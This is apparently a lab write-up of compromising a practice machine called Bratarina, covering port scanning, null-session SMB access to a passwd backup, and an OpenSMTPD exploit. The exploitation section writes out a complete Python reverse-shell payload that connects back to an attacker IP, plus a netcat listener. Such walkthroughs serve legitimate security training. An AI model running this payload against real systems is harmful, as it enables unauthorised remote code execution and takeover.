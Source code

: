 ```yaml
---
description: 12/1/2022
---
```


# Bratarina

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.175], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-01T23:59:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2022-12-01T19:00:01-05:00
```

Enumerated UDP ports:

```
```

Notes:

* 80/HTTP - <mark style="color:yellow;">nginx 1.14.0</mark>
  * <mark style="color:yellow;">Lots of broken links and other functionality</mark>
  * <mark style="color:yellow;">Viewed source code</mark>
* 25/SMTP <mark style="color:yellow;">OpenSMTPD 2.0.0</mark>
  * <mark style="color:yellow;">Searchsploit returns numerous exploits</mark>
* 445/SMB <mark style="color:yellow;">Samba 4.7.6</mark>
  * <mark style="color:yellow;">Enum4linux null shares</mark>

## Enumeration

### Port 80 - HTTP (nginx 1.14.0)

Dirsearch:

```
```

### Port 445 - Samba

Enum4Linux:

```
enum4linux 192.168.175.71
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>backups share</p></figcaption></figure>

smbclient (Null authentication)

```
smbclient '\\\\192.168.175.71\\backups'
Password:(press enter)
smb: \>get passwd.bak
```

* We see passwd.bak
* It is a backup of /etc/passwd

passwd.bak:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Contents of /etc/passwd backup</p></figcaption></figure>

## Exploitation

### OpenSMTPD 6.6.1 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47984" %}
PoC
{% endembed %}

Syntax for Exploit:

{% code overflow="wrap" %}
```
python3 47984 192.168.175.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```
{% endcode %}

Nc Listener:

```
sudo nc -lnvp 80
```

## Privilege Escalation

None, landed as root

## Proofs

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Proof.txt</p></figcaption></figure>
